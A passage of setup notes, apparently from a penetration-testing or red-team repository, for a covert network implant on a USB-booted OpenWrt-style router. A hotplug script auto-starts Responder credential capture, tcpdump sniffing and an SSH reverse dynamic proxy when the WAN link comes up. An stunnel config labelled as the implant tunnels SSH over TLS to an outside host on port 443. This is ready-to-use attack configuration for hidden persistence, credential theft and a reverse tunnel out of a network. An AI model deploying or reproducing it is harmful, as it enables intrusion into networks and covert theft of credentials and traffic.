 ------

Add to `/etc/hotplug.d/iface/99-ifup-wan`

99-ifup-wan script:

```bash
#!/bin/sh                                                                                                                                                                                   
export USB=/mnt/sda
export PATH=$PATH:$USB/usr/bin:$USB/usr/sbin # This PATH is dependent on existing $PATH
export LD_LIBRARY_PATH=$USB/lib:$USB/usr/lib

uci set network.wan6.disabled="0"
uci set network.wan.ipv6="1"

wifi reload
service network reload

sleep 30

[ "$ACTION" = "ifup" -a "$INTERFACE" = "wan" ] && {                                                   logger "iface wan up detected..."                                                     
        sh /mnt/sda/start_responder.sh
        sh /mnt/sda/start_tcpdump.sh > /dev/null # Output anything to /dev/null
        sh /mnt/sda/start_sshproxy.sh # The ssh reverse dynamic proxy script
}                                                                       
exit 0
```

-------
**NOTE: MAKE SURE TO `chmod +x` ALL THE SCRIPT FILES **

#### Stunnel + SSH:

To install stunnel: `opkg update; opkg install -d usb stunnel`

<u>Stunnel config (implant):</u>

Location: `/mnt/sda/etc/stunnel`

```
output  = /mnt/sda/var/log/stunnel4/stunnel.log
cert    = /mnt/sda/etc/stunnel/stunnel.pem
key     = /mnt/sda/etc/stunnel/stunnel.pem
pid     = /mnt/sda/var/run/stunnel4/stunnel.pid
client  =  yes

[ssh]
accept  = 2223
connect = lab1.shouldmakeawebsite.dev:443
```

Have to `mkdir -p /mnt/sda/var/log/stunnel4/` and `mkdir -p /mnt/sda/var/run/stunnel4/`

Symlink `/mnt/sda/etc/stunnel` to `/etc/stunnel` so when we run `/mnt/sda/usr/bin/stunnel` in the script without it bitching about the config file.
